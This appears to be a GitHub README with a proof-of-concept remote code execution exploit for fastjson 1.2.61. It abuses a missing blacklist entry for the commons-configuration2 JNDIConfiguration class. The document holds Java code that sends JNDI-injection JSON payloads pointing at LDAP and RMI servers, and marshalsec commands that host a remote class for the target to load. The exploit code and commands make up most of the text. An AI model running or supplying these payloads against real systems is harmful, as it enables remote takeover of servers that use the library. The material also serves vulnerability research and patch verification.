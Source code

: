 # fastjson-1.2.61-RCE

## Ps：
官方在https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java 中，将0x7bddd363ad3998c6L
（即1.2.61	8925522461579647174	0x7bddd363ad3998c6L	org.apache.commons.configuration.JNDIConfiguration）加入黑名单，但是未将org.apache.commons.configuration2.JNDIConfiguration加入黑名单，导致1.2.61 bypass.


![](./Fastjson-1.2.61-RCE.gif)

## FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://10.10.20.166:1099/ExportObject\"}";

        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}

//        fastjson 1.2.60
//        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
```
## LDAP PORT 1389

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`

## RMI PORT 1099

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

![](./fastjson_1_2_61.jpg)

## diff poc

```
1.2.60 
org.apache.commons.configuration.JNDIConfiguration
>>>commons-configuration-1.4.jar


1.2.61
org.apache.commons.configuration2.JNDIConfiguration
>>>commons-configuration2-2.0.jar
```

## 参考链接
https://mp.weixin.qq.com/s/PHB3dBgvDGdqPhhB1dFfNA

https://github.com/LeadroyaL/fastjson-blacklist

https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java


